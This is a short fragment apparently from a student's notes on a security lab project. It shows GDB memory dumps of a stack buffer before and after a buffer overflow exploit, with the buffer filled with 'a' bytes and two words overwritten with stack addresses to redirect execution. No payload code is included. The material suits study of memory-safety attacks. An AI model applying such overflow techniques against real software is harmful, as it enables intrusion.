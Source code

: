 > ![](Project_1.assets/image-20240304205618278.png)







## Exploit GDB Output
> [!code]
> **Buf before our exploit:**
> 0xffffd730:     0x00000000      0x00000001      0x00000000      0xffffd8eb
> 0xffffd740:     0x00000002      0x00000000      0x00000000      0x00000000
> 0xffffd750:     0x00000000      0xffffdfe5      0xf7ffc540      0xf7ffc000
> 0xffffd760:     0x00000000      0x00000000      0x00000000      0x00000000
> 0xffffd770:     0xffffd77c
> 
> **Buf after our exploit**
> 0xffffd730:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd740:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd750:     <font color="#4f81bd">0x61616161</font>      <font color="#ff0000">0xffffdf9c</font>      <font color="#4f81bd">0x61616161      0x61616161</font>
> 0xffffd760:     <font color="#4f81bd">0x61616161      0x61616161      0x61616161      0x61616161</font>
> 0xffffd770: <font color="#ff0000">0xffffd750</font>